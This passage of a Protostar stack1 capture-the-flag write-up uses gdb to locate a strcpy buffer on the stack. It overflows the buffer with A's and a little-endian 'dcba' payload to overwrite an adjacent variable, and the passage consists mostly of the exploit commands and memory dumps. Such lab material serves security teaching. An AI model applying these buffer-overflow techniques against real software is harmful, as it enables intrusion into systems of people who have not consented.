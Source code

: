 ```
End of assembler dump.
```

Adding breakpoints to the strcpy function call before and after to check the contents. From the assembly code, the location is at esp + x5c. Therefore, running with a bunch of A's for location.

```
(gdb) break *0x080484a2
Breakpoint 1 at 0x80484a2: file stack1/stack1.c, line 16.
(gdb) break *0x080484a7
Breakpoint 2 at 0x80484a7: file stack1/stack1.c, line 18.
(gdb) r AAAAAAAAAAAAAAAAAAAAAA
Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAA
Breakpoint 1, 0x080484a2 in main (argc=2, argv=0xbffff834) at stack1/stack1.c:16
16        stack1/stack1.c: No such file or directory.
        in stack1/stack1.c
(gdb) x/24wx $esp
0xbffff720:        0xbffff73c        0xbffff974        0xb7fff8f8        0xb7f0186e
0xbffff730:        0xb7fd7ff4        0xb7ec6165        0xbffff748        0xb7eada75
0xbffff740:        0xb7fd7ff4        0x080496fc        0xbffff758        0x08048334
0xbffff750:        0xb7ff1040        0x080496fc        0xbffff788        0x08048509
0xbffff760:        0xb7fd8304        0xb7fd7ff4        0x080484f0        0xbffff788
0xbffff770:        0xb7ec6365        0xb7ff1040        0x080484fb        0x00000000
(gdb) c
Continuing.
Breakpoint 2, main (argc=2, argv=0xbffff834) at stack1/stack1.c:18
18        in stack1/stack1.c
(gdb) x/24wx $esp
0xbffff720:        0xbffff73c        0xbffff974        0xb7fff8f8        0xb7f0186e
0xbffff730:        0xb7fd7ff4        0xb7ec6165        0xbffff748        0x41414141
0xbffff740:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff750:        0xb7004141        0x080496fc        0xbffff788        0x08048509
0xbffff760:        0xb7fd8304        0xb7fd7ff4        0x080484f0        0xbffff788
0xbffff770:        0xb7ec6365        0xb7ff1040        0x080484fb        0x00000000
```

The A's are now located. The 0x0000000 entry is the one that needs to be changed. The exact value required to be there is 0x61626364 which needs to be written backwards byte by byte to follow the little endianness. The number of bytes required to change can be counted and the last 4 need to be changed to 0x64636261 using python.

```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
Breakpoint 1, 0x080484a2 in main (argc=2, argv=0xbffff804) at stack1/stack1.c:16
16        in stack1/stack1.c
(gdb) x/24wx $esp
0xbffff6f0:        0xbffff70c        0xbffff946        0xb7fff8f8        0xb7f0186e
0xbffff700:        0xb7fd7ff4        0xb7ec6165        0xbffff718        0xb7eada75
0xbffff710:        0xb7fd7ff4        0x080496fc        0xbffff728        0x08048334
0xbffff720:        0xb7ff1040        0x080496fc        0xbffff758        0x08048509
0xbffff730:        0xb7fd8304        0xb7fd7ff4        0x080484f0        0xbffff758
0xbffff740:        0xb7ec6365        0xb7ff1040        0x080484fb        0x00000000
(gdb) c
Continuing.
Breakpoint 2, main (argc=2, argv=0xbffff804) at stack1/stack1.c:18
18        in stack1/stack1.c
(gdb) x/24wx $esp
0xbffff6f0:        0xbffff70c        0xbffff946        0xb7fff8f8        0xb7f0186e
0xbffff700:        0xb7fd7ff4        0xb7ec6165        0xbffff718        0x41414141
0xbffff710:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff720:        0x41414141        0x41414141        0x41414141        0x41414141
```